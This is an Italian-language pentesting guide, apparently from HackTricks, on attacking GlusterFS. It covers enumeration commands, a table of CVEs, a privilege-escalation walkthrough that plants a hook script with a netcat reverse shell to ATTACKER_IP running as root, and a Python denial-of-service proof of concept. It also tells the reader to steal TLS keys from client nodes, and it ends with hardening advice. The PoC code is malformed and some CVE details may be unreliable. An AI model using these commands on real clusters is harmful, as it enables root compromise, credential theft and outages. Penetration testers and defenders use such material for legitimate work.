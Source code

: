 # 24007-24008-24009-49152 - Pentesting GlusterFS

{{#include ../banners/hacktricks-training.md}}

## Informazioni di base

**GlusterFS** è un **sistema di file distribuito** che combina lo storage di più server in un **namespace unificato**. Il demone di gestione (`glusterd`) ascolta per impostazione predefinita su **24007/TCP** e istruisce i brick del piano dati che iniziano a **49152/TCP** (una porta per brick, in incremento). Le versioni precedenti alla 9.x utilizzavano **24008–24009/TCP** per il trasporto dei brick, quindi potresti ancora incontrare quelle porte nei cluster legacy.
```
PORT      STATE  SERVICE        VERSION
24007/tcp open   glusterd       GlusterFS (RPC)
49152/tcp open   gluster-brick  SSL (TLS optional)
```
> Suggerimento: 24007 risponde alle chiamate RPC anche quando i nodi solo storage **non** esportano alcun volume; pertanto il servizio è un obiettivo pivot affidabile all'interno di grandi infrastrutture.

## Enumerazione

Installa le utility client sulla tua macchina di attacco:
```bash
sudo apt install -y glusterfs-cli glusterfs-client   # Debian/Ubuntu
```
1. **Scoperta dei peer e salute**
```bash
# List peers (works without authentication in default setups)
gluster --remote-host 10.10.11.131 peer status
```
2. **Riconoscimento del volume**
```bash
# Retrieve the list of all volumes and their configuration
gluster --remote-host 10.10.11.131 volume info all
```
3. **Montare senza privilegi**
```bash
sudo mount -t glusterfs 10.10.11.131:/<vol_name> /mnt/gluster
```
Se il montaggio fallisce, controlla `/var/log/glusterfs/<vol_name>-<uid>.log` sul lato client. I problemi comuni sono:

* Applicazione di TLS (`option transport.socket.ssl on`)
* Controllo degli accessi basato su indirizzo (`option auth.allow <cidr>`)

### Risoluzione dei problemi del certificato

Ruba i seguenti file da qualsiasi nodo client autorizzato e posizionali in `/etc/ssl/` (o nella directory mostrata nel log degli errori):
```
/etc/ssl/glusterfs.pem
/etc/ssl/glusterfs.key
/etc/ssl/glusterfs.ca
```
---

## Vulnerabilità Conosciute (2022-2025)

| CVE | Versioni affette | Impatto | Note |
|-----|-------------------|--------|-------|
| **CVE-2022-48340** | 10.0–10.4, 11.0 | Use-after-free in `dht_setxattr_mds_cbk` raggiungibile attraverso la rete | **DoS** remoto e probabile RCE. Risolto in 10.4.1 / 11.1. |
| **CVE-2023-26253** | < 11.0 | Lettura fuori dai limiti nel gestore di notifiche FUSE | Crash remoto tramite operazioni FS create; PoC pubblico disponibile. |
| **CVE-2023-3775** | < 10.5 / 11.1 | Validazione dei permessi errata durante il montaggio di `gluster_shared_storage` | Permette a qualsiasi client non autenticato di montare il volume admin – porta a **priv-esc** spiegato di seguito. |

> Controlla sempre `gluster --version` **su ogni nodo**; i cluster eterogenei sono comuni dopo aggiornamenti parziali.

### Sfruttare `gluster_shared_storage` (Escalation dei Privilegi)

Anche nelle versioni recenti molti amministratori lasciano il volume speciale `gluster_shared_storage` leggibile da tutti perché semplifica la geo-replicazione. Il volume contiene modelli di cronjob che vengono eseguiti con **root** su ogni nodo.
```bash
# 1. Mount admin volume anonymously
mkdir /tmp/gss && sudo mount -t glusterfs 10.10.11.131:/gluster_shared_storage /tmp/gss

# 2. Drop malicious script that gets synchronised cluster-wide
cat <<'EOF' > /tmp/gss/hooks/1/start/post/test.sh
#!/bin/bash
nc -e /bin/bash ATTACKER_IP 4444 &
EOF
chmod +x /tmp/gss/hooks/1/start/post/test.sh

# 3. Wait until glusterd distributes the hook and executes it as root
```
Se `hooks/1/` non è presente, cerca `/ss_bricks/` – il percorso esatto può variare con la versione principale.

### Denial-of-Service PoC (CVE-2023-26253)
```python
#!/usr/bin/env python3
# Minimal reproducer: sends malformed NOTIFY_REPLY XDR frame to 24007
import socket, xdrlib, struct
p = xdrlib.Packer(); p.pack_uint(0xdeadbeef)
with socket.create_connection(("10.10.11.131",24007)) as s:
s.send(struct.pack("!L", len(p.get_buffer())|0x80000000))
s.send(p.get_buffer())
```
Eseguire lo script provoca il crash di `glusterfsd` < 11.0.

---

## Indurimento e Rilevamento

* **Aggiornare** – l'attuale LTS è 11.1 (luglio 2025). Tutti i CVE sopra sono stati risolti.
* Abilitare **TLS** per ogni brick:

```bash
gluster volume set <vol> transport.socket.ssl on
gluster volume set <vol> transport.socket.ssl-cert /etc/ssl/glusterfs.pem
```
* Limitare i client con elenchi CIDR:

```bash
gluster volume set <vol> auth.allow 10.0.0.0/24
```
* Esporre la porta di gestione 24007 solo su una **VLAN privata** o tramite tunnel SSH.
* Controllare i log: `tail -f /var/log/glusterfs/glusterd.log` e configurare la funzione **audit-log** (`volume set <vol> features.audit-log on`).

---

## Riferimenti

* [GlusterFS security advisories](https://docs.gluster.org/en/latest/release-notes/#security)
* [CVE-2023-26253 PoC – github.com/tinynetwork/gluster-notify-crash](https://github.com/tinynetwork/gluster-notify-crash)
{{#include ../banners/hacktricks-training.md}}
